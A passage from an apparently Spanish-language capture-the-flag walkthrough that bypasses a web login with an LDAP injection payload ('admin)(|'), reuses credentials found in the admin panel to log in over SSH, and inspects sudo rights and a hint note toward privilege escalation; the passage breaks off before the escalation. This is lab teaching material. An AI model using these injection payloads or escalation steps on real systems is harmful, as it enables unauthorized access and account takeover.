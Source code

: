 ```html
<!-- I believe this login works with LDAP -->
```

Nos da una pista de que puede ser vulnerable con un `Bypass` de `LDAP`.

## Bypass LDAP

URL = https://book.hacktricks.xyz/pentesting-web/ldap-injection#login-bypass

Probaremos a bypassear el login de la siguiente forma.

```
User = admin)(|
Pass = admin)(|
```

Y por lo que vemos accedemos al panel de administrador, si bajamos un poco vemos unas credenciales las cuales probaremos mediante `SSH`.

## SSH

```shell
ssh 404-page@<IP>
```

Metemos la contraseña obtenida `not-found-page-secret` y ya estariamos dentro.

## Escalate user 200-ok

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for 404-page on 084fadd2eeb1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User 404-page may run the following commands on 084fadd2eeb1:
    (200-ok : 200-ok) /home/404-page/calculator.py
```

Vemos que podemos ejecutar como el usuario `200-ok` el script de `calculator.py` por lo que haremos lo siguiente.

Si ejecutamos ese script vemos que es una calculadora normal, pero si leemos una nota en el siguiente directorio.

```shell
cat /var/www/nota.txt
```

Info:

```
In the calculator I don't know what the symbol is used for "!" followed by something else, only 200-ok knows.
```
